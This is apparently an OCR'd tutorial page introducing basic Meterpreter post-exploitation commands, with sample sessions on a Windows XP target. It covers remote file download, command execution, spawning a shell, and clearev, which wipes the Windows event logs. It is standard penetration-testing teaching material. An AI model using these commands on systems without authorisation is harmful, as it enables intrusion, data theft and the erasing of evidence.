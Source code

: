 Meterpreter_ provides a whole new environment, we will cover some of the basic Meterpreter commands to get you started and help familiarize you with this most powerful tool.


## help

The **help** command, as may be expected, displays the Meterpreter help menu.


## background

The **background** command will send the current Meterpreter session to the background and return you to the ‘msf’ prompt. To get back to your Meterpreter session, just interact with it again.


## clearev

The **clearev** command will clear the _Application_, _System_, and _Security_ logs on a _Windows_ system. There are no options or arguments.


## download

The **download** command downloads a file from the remote machine. Note the use of the double-slashes when giving the Windows path.

meterpreter > download c:\\\\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini
meterpreter >

## execute

The **execute** command runs a command on the target.

meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>



## shell

The **shell** command will present you with a standard shell on the target system.

meterpreter > shell
Process 39640 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>







